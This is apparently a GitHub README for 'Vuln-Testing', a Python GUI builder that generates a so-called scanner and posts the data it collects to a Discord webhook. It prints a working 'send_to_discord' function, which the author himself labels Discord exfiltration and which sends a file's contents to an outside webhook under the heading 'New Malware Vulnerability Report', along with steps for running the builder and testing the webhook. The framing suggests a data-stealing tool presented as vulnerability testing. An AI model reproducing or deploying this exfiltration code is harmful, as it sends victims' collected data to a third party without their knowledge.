 # Vuln-Testing
A Vulnerability testing Python Builder script that makes the scanner and then sends collected data to a discord webhook. Made by Mitan7. I have another script like this, though no discord, and *actually* personal use. 

# Some Code
This is in python. It imports:
```
This uses python. Imports:

import tkinter as tk
from tkinter import messagebox, scrolledtext
import os
import sys
import requests
```
It also uses this discord exfiltration:
```
def send_to_discord(json_file_path):
    try:
        with open(json_file_path, "r") as f:
            data = f.read()

        payload = {
            "content": f"New Malware Vulnerability Report:\n```json\n{data}\n```"
        }

        response = requests.post(WEBHOOK_URL, json=payload)

        if response.status_code == 204 or response.status_code == 200:
            print("Report successfully sent to Discord webhook!")
        else:
            print(f"Failed to send report: {response.status_code} - {response.text}")
    except Exception as e:
        print(f"Error sending to Discord: {e}")

send_to_discord(json_path)
```
See? 

# How to use

First of all. Download this repo (*Duh*). Then run `Builder.py` in the `Vuln Builder` folder. It should make a GUI pop up. It is very simple to follow. Even has a simple `test Webhook` button that tests if your webhook actually functions by sending a test message ("`Test message from Builder.py`")
